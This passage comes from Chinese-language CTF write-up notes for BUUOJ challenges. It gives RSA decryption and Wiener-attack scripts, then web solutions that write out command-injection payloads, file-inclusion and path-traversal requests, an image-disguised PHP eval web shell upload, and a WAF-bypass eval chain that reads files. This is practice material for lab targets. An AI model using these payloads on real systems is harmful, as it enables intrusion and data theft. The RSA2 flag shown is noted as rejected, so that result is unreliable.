enc_flag : 0x50ae00623211ba6089ddfae21e204ab616f6c9d294e913550af3d66e85d0c0693ed53ed55c46d8cca1d7c2ad44839030df26b70f22a8567171a759b76fe5f07b3c5a6ec89117ed0a36c0950956b9cde880c575737f779143f921d745ac3bb0e379c05d9a3cc6bf0bea8aa91e4d5e752c7eb46b2e023edbc07d24a7c460a34a9a
'''

pAndq = 0x1232fecb92adead91613e7d9ae5e36fe6bb765317d6ed38ad890b4073539a6231a6620584cea5730b5af83a3e80cf30141282c97be4400e33307573af6b25e2ea
p1Mulq1 = 0x5248becef1d925d45705a7302700d6a0ffe5877fddf9451a9c1181c4d82365806085fd86fbaab08b6fc66a967b2566d743c626547203b34ea3fdb1bc06dd3bb765fd8b919e3bd2cb15bc175c9498f9d9a0e216c2dde64d81255fa4c05a1ee619fc1fc505285a239e7bc655ec6605d9693078b800ee80931a7a0c84f33c851740
e = 0xe6b1bee47bd63f615c7d0a43c529d219
d = 0x2dde7fbaed477f6d62838d55b0d0964868cf6efb2c282a5f13e6008ce7317a24cb57aec49ef0d738919f47cdcd9677cd52ac2293ec5938aa198f962678b5cd0da344453f521a69b2ac03647cdd8339f4e38cec452d54e60698833d67f9315c02ddaa4c79ebaa902c605d7bda32ce970541b2d9a17d62b52df813b2fb0c5ab1a5
c = 0x50ae00623211ba6089ddfae21e204ab616f6c9d294e913550af3d66e85d0c0693ed53ed55c46d8cca1d7c2ad44839030df26b70f22a8567171a759b76fe5f07b3c5a6ec89117ed0a36c0950956b9cde880c575737f779143f921d745ac3bb0e379c05d9a3cc6bf0bea8aa91e4d5e752c7eb46b2e023edbc07d24a7c460a34a9a

n = p1Mulq1 - pAndq  - 1
message = pow(c, d, n)
m_bytes = message.to_bytes((message.bit_length() + 7) // 8, 'big')
print(m_bytes)
```
### [40 rsa2](https://buuoj.cn/challenges#rsa2)
Wiener连分数攻击
[rsa-wiener-attack](https://github.com/pablocelayes/rsa-wiener-attack)
```py
N = 101991809777553253470276751399264740131157682329252673501792154507006158434432009141995367241962525705950046253400188884658262496534706438791515071885860897552736656899566915731297225817250639873643376310103992170646906557242832893914902053581087502512787303322747780420210884852166586717636559058152544979471
e = 46731919563265721307105180410302518676676135509737992912625092976849075262192092549323082367518264378630543338219025744820916471913696072050291990620486581719410354385121760761374229374847695148230596005409978383369740305816082770283909611956355972181848077519920922059268376958811713365106925235218265173085

import hashlib
from RSAwienerHacker import hack_RSA

d = hack_RSA(e, N)
print("d = ", d)
flag = "flag{" + hashlib.md5(hex(d).encode()).hexdigest() + "}"
print(flag)
```
但输出的flag{8159e6c4abdd3b94ce461ed9a1a24017}提交显示InCorrect......
### [41 RSA5](https://buuoj.cn/challenges#RSA5)

## Web
### [Exec](https://buuoj.cn/challenges#[ACTF2020%20%E6%96%B0%E7%94%9F%E8%B5%9B]Exec)
命令用分号连行
```sh
ping xxx;ls /
ping xxx;cat /flag
```
### [Include](https://buuoj.cn/challenges#[ACTF2020%20%E6%96%B0%E7%94%9F%E8%B5%9B]Include)
题名Include提示文件包含漏洞，flag.php
```sh
http://429fd97a-c441-438a-b43b-0e510cbbd34a.node5.buuoj.cn:81/?file=php://filter/convert.base64-encode/resource=flag.php
```
### [WarmUp](https://buuoj.cn/challenges#[HCTF%202018]WarmUp) 
F12源码提示source.php
```
http://e349e9a3-a1ca-406e-8339-61b9a7427ddd.node5.buuoj.cn:81/source.php
```
? -> %253f
```sh
GET /?file=hint.php%253f/../source.php HTTP/1.1

GET /?file=source.php%253f/../hint.php HTTP/1.1

    flag not here, and flag in ffffllllaaaagggg

GET /?file=source.php%253f/../../../../ffffllllaaaagggg HTTP/1.1
```
### [Upload](https://buuoj.cn/challenges#[ACTF2020%20%E6%96%B0%E7%94%9F%E8%B5%9B]Upload)
页面提示只能上传jpg,png和gif，上传后会改名但不会改后缀，修改filename用.phtml可上传成功
```sh
------WebKitFormBoundarytIH6nB2DbB83MTUp
Content-Disposition: form-data; name="upload_file"; filename="info.phtml"
Content-Type: image/gif

GIF89a
<?php @eval($_POST['cmd']); ?>

------WebKitFormBoundarytIH6nB2DbB83MTUp
```
然后使用AntSword连接得到根目录下的flag
### [BackupFile](https://buuoj.cn/challenges#[ACTF2020%20%E6%96%B0%E7%94%9F%E8%B5%9B]BackupFile)
使用dirsearch遍历发现有/index.php.bak文件
```sh
./dirsearch.py -u http://be67322c-d5ef-4e37-973d-ad525f873cbf.node5.buuoj.cn:81/ -e "*" --delay 0.1 -t 1 -i 200,403 
```
index.php.bak
```php
<?php
include_once "flag.php";

if(isset($_GET['key'])) {
    $key = $_GET['key'];
    if(!is_numeric($key)) {
        exit("Just num!");
    }
    $key = intval($key);
    $str = "123ffwsfwefwf24r2f32ir23jrw923rskfjwtsw54w3";
    if($key == $str) {
        echo $flag;
    }
}
else {
    echo "Try to find out source file!";
}
```
最终
```sh
http://be67322c-d5ef-4e37-973d-ad525f873cbf.node5.buuoj.cn:81/index.php/?key=123
```
### [Calc](https://buuoj.cn/challenges#[RoarCTF%202019]Easy%20Calc)
```php
<!--I've set up WAF to ensure security.-->
<script>
    $('#calc').submit(function(){
        $.ajax({
            url:"calc.php?num="+encodeURIComponent($("#content").val()),
            type:'GET',
            success:function(data){
                $("#result").html(`<div class="alert alert-success">
            <strong>答案:</strong>${data}
            </div>`);
            },
            error:function(){
                alert("这啥?算不来!");
            }
        })
        return false;
    })
</script>

<?php
error_reporting(0);
if(!isset($_GET['num'])){
    show_source(__FILE__);
}else{
        $str = $_GET['num'];
        $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]','\$','\\','\^'];
        foreach ($blacklist as $blackitem) {
                if (preg_match('/' . $blackitem . '/m', $str)) {
                        die("what are you want to do?");
                }
        }
        eval('echo '.$str.';');
}
?>
```
输入任意字符串都报错，可能WAF中不允许num变量有字符，那么可以在num前加空格绕过，而php解析时会去掉空格正好又变回了num。
```
GET /calc.php?%20num=phpinfo() HTTP/1.1

GET /calc.php?%20num=1;var_dump(scandir(chr(47))) HTTP/1.1

GET /calc.php?%20num=1;var_dump(file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103))) HTTP/1.1

1string(43) "flag{99a11ff3-c370-477e-8aaa-3a13acfb0936}
"
```
### [admin](https://buuoj.cn/challenges#[HCTF%202018]admin)

### [NiZhuanSiWei](https://buuoj.cn/challenges#[ZJCTF%202019]NiZhuanSiWei)
```php
<?php  
$text = $_GET["text"];
$file = $_GET["file"];
$password = $_GET["password"];
if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        echo "Not now!";
        exit(); 
    }else{
        include($file);  //useless.php
        $password = unserialize($password);
        echo $password;
    }
}
else{
    highlight_file(__FILE__);
}
?>
```

```sh
GET /?text=data://text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY=&file=useless.php&password=s:6:%22%22ls%20%2f%22%22; HTTP/1.1


```